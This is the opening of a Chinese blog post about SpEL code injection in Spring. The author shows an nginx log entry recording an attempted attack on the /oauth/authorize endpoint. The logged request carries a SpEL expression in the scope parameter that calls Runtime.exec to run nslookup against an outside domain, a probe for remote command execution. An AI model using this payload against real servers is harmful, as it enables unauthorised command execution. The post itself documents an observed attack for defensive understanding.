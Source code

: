 ```yaml
---
title:      通过SpEL进行代码注入
layout:     post
category:   blog
tags:       [spring, java, crack]
---
```


今天看日志中出现了这么一条请求

    2019/08/08 15:03:33 [error] 14451#14451: *158426 open() "/usr/share/nginx/html/oauth/authorize" failed (2: No such file or directory), client: xxxx.xxxx.xxxx.xxxx, server: blabla.com, request: "GET /oauth/authorize?client_id=[id]&response_type=[type]&scope=$%7BT(java.lang.Runtime).getRuntime().exec(%22nslookup%20btubh.i.lnke.site%22)%7D&redirect_uri=[uri] HTTP/1.1", host: "xxxx.xxxx.xxxx.xxxx"
